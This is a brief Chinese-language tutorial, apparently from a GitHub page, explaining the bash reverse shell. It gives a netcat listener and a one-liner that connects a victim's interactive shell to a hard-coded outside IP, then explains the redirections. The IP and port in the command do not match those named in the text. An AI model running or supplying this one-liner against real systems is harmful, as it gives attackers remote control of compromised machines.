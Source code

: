 ## bash反弹shell

bash反弹：首先公网主机监听指定端口，然后肉鸡执行bash命令向公网指定端口发送连接请求

公网主机：   

```bash
nc -lvvp 9090 
```

肉鸡执行：  

````bash
 bash -c 'exec bash -i &>/dev/tcp/47.99.163.64/3389 0>&1'    # 其中144.34.164.217为自己的公网主机
````

对命令的解释：

bash -c 把后面字符串当做命令执行

bash -i意为创建一个交互式的bash shell 

&>意为将标准输出和标准错误都重定向到我们指定的文件中，

下面实验

````bash
x@DESKTOP-GR9LS16:~$ cat 1 I get some words here!! 

x@DESKTOP-GR9LS16:~$ cat 2 cat: 2: No such file or directory 

x@DESKTOP-GR9LS16:~$ cat 1 &> 2 

x@DESKTOP-GR9LS16:~$ cat 2 I get some words here!!
````

可以看到标准错误和标准输出都被重定向到了文件2中至于后面的/dev/tcp/144.34.164.217/9090，这是一个特殊文件，它会建立一个连接到到144.34.164.217:9090的socket最后一个0>&1，意为将文件描述符0重定向到文件描述符1，也就是标准输入被重定向到了标准输出我们来分析一下，首先&>使得标准输出重定向到了我们的TCP连接上，然后0>&1使得标准输入又重定向到了标准输出中，最终的结果就是标准输入也被重定向到了TCP连接中，因此输入和输出都可以在公网主机上进行，通过TCP连接和bash进行交互